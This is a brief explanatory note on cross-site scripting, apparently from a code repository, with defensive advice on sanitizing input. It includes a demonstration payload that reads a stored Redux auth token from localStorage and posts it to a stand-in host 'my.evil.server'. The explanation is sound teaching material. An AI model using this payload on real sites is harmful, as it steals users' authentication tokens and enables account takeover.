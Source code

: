 # XSS

XSS (Cross site scripting) is an attack where one runs a script (typically
JavaScript) in another user's browser. This can happen if user inputs are not
correctly sanitized and then displayed back to users.

For example, if one makes a blog post on a site containing

```html
<script>
  alert("XSS");
</script>
```

and when visiting said blog post `XSS` is alerted, the we have found an XSS
vulnerability.

XSS can be used for

- stealing stored data in browser local storage
- steal cookies (unless they are server-side read-only)
- modify DOM and trigger DOM events
- send requests (especially dangerous if cookie-based authentication is used)

For example, the following could grab a token in persisted Redux store and post
it to an evil server.

```html
<script>
  {
    const root = window.localStorage["persist:root"];
    const auth = JSON.parse(root).auth;

    const url = "my.evil.server:5001";
    window.fetch(url, { method: "POST", body: auth });
  }
</script>
```

The best protection against XSS is to make sure all user input is sanitized and
that no vulnerable data is stored in local storage or browser readable cookies.
